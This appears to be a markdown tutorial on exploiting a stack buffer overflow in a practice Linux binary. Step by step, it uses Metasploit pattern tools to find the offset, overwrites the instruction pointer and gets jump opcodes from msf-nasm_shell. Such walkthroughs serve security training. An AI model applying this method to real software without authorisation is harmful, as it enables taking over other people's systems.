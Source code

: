 # Buffer Overflow in Linux Binary

1. Trigger **segmentation fault** by entering a large input

        python -c 'print "A"*1000'  | ./vuln_binary

2. Run binary

        ./vuln_binary
        
3. Attach running process to debugger (GDB/EDB)
4. Generate input pattern

        /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000

5. Re-trigger **segmentation fault** by passing unique input pattern, and note the reported illegal **return address** value, e.g., `0x0000000033674132`
6. Calculate the **buffer length**

        $ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 33674132
        [*] Exact match at offset 188

    For the rest of the example, let's assume, the buffer length is **188** characters

7. Test if we can control the **instruction pointer** (EIP)

        python -c 'print "A"*188 + "B"*4'  | ./vuln_binary

    An error message similar to following indicates that we successfully managed to overwrite the instruction pointer with a sequence of four "B" [ASCII characters]()

        The address 0x0000000042424242 does not appear to be mapped.

    Hexadecimal value for ASCII character `B` is `42`.

8. Test again and observe the actual **order** of input characters as they are stored in the **memory address**

        python -c 'print "A"*188 + "BCDE" + "Z"*100'  | ./vuln_binary

    The new error message is
    
        The address 0x0000000045444342 does not appear to be mapped. 

    B := 42
    C := 43
    D := 44
    E := 45

9. Locate a **register** that points to any part of input buffer, at the time of crash. Most often the **ESP** register is found to be pointing towards the end of the input buffer.
10. If it gets complicated, use **msf-nasm_shell** utility from Metasploit to get the correct opcodes for desired instructions. The goal is to redirect the execution flow to our buffer.

        $ msf-nasm_shell
        nasm > add eax,12
        00000000  83C00C            add eax,byte +0xc
        nasm > jmp eax
        00000000  FFE0              jmp eax
